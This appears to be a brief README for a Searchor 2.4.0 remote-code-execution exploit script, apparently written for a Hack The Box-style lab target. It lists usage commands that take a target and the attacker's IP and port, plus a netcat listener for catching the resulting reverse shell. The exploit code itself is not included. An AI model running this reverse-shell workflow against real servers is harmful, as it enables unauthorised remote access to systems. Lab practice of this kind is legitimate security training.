 
This is just a quick script to exploit webservers running the vulnerable version of Searchor.

This script will accept a hostname, the attacker's IP address and the attacker's Port number.

Usage example: 
 -  `python3 searchor_2.4.0_RCE.py <HOSTNAME> <ATK_IP> <ATK_PORT>
 -  `python3 searchor_2.4.0_RCE.py searchor.htb 10.10.14.52 4242`
 
It is recommended to use the following when preparing to catch the reverse shell:
 -  `rlwrap nc -lvnp <ATK_PORT>` 

Additional details about the vulnerability can be found in the official issue history for [Searchor](https://github.com/ArjunSharda/Searchor/pull/130).

